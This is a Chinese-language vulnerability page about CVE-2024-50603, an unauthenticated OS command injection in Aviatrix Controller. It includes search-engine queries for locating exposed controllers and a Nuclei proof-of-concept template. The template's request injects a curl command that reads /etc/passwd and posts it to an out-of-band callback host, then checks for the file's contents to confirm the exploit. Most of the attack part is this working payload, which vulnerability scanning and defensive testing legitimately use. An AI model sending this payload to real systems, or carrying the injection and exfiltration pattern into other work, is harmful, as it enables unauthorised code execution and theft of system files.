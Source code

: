 # Aviatrix未授权远程代码执行漏洞(CVE-2024-50603)

在 7.1.4191 之前的 Aviatrix Controller 和 7.2.4996 之前的 7.2.x 中发现了问题。由于操作系统命令中使用的特殊元素的中和不当，未经身份验证的攻击者能够执行任意代码。 Shell 元字符可以发送到 cloud_type 中的 /v1/api（对于 list_flightpath_destination_instances），或者发送到 src_cloud_type（对于 Flightpath_connection_test）。

## zoomeye

```javascript
app="Aviatrix Controller"
```

## poc

```yaml
id: CVE-2024-50603

info:
  name: Aviatrix Controller - Remote Code Execution
  author: newlinesec,securing.pl
  severity: critical
  description: |
    An issue was discovered in Aviatrix Controller before 7.1.4191 and 7.2.x before 7.2.4996. Due to the improper neutralization of special elements used in an OS command, an unauthenticated attacker is able to execute arbitrary code. Shell metacharacters can be sent to /v1/api in cloud_type for list_flightpath_destination_instances, or src_cloud_type for flightpath_connection_test.
  reference:
    - https://www.securing.pl/en/cve-2024-50603-aviatrix-network-controller-command-injection-vulnerability/
    - https://nvd.nist.gov/vuln/detail/CVE-2024-50603
    - https://docs.aviatrix.com/documentation/latest/network-security/index.html
    - https://docs.aviatrix.com/documentation/latest/release-notices/psirt-advisories/psirt-advisories.html?expand=true#remote-code-execution-vulnerability-in-aviatrix-controllers
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10
    cve-id: CVE-2024-50603
    cwe-id: CWE-78
    epss-score: 0.00046
    epss-percentile: 0.1845
  metadata:
    verified: true
    max-request: 1
    vendor: aviatrix
    product: controller
    shodan-query:
      - http.title:"aviatrix controller"
      - http.title:"aviatrix cloud controller"
    fofa-query:
      - app="aviatrix-controller"
      - title="aviatrix cloud controller"
    google-query: intitle:"aviatrix cloud controller"
    zoomeye-query: app="Aviatrix Controller"
  tags: cve,cve2024,aviatrix,controller,rce,oast

variables:
  oast: "{{interactsh-url}}"

http:
  - raw:
      - |
        POST /v1/api HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        action=list_flightpath_destination_instances&CID=anything_goes_here&account_name=1&region=1&vpc_id_name=1&cloud_type=1|$(curl+-X+POST+-d+@/etc/passwd+{{oast}})
    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        name: http
        words:
          - "http"

      - type: status
        status:
          - 200

      - type: regex
        part: interactsh_request
        regex:
          - 'root:.*:0:0:'
```



## 漏洞来源

- https://github.com/projectdiscovery/nuclei-templates/pull/11460/files